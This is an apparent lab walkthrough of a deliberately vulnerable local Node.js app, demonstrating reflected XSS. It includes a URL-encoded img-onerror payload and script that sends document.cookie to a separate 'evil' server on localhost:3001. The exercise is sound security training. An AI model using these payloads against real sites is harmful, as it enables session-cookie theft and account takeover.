 # Local Host

- Now let's get started. In your terminal program, use git to download the project:

```git clone https://github.com/Learn-by-doing/xss.git```

- If successful, a new folder named xss should have been created.

Change directory into the new folder:

```cd xss```

- Install the project's dependencies using npm:

```npm install``` 

- Now we can run the local web server using Node.js:

```node server.js```

- If successful, you should see the following message: Server listening at localhost:3000. This means that a local web server is now running and is listening for requests at localhost:3000. Open your browser and click the link.

****
The interface

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/37c21fd7-a098-478f-8f19-8b651c958146)

after encoding this we can xss it

```encodeURIComponent('<img src="does-not-exist" onerror="alert(\'hi!\')">');```

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/43f0eaf8-ca18-43d0-9447-ece366ee83d8)


- so the final link is
```http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(%27hi!%27)%22%3E```

and we got the popup

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/5db48d6e-3304-4500-a385-1483aaf02f4a)

- Lets grep some cookie

```<img src="does-not-exist" onerror="alert(document.cookie)">```

- Now before continuing, we will need to start our "evil" web server. Run the following command in a second terminal window:

```node evil-server.js```


```<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">```

- how it goes in another redirected link
  
```
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```



- which is out another server located in local host 3001

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/7af83daa-250e-4e95-96b4-7d2bcd51b995)

we got the cookie

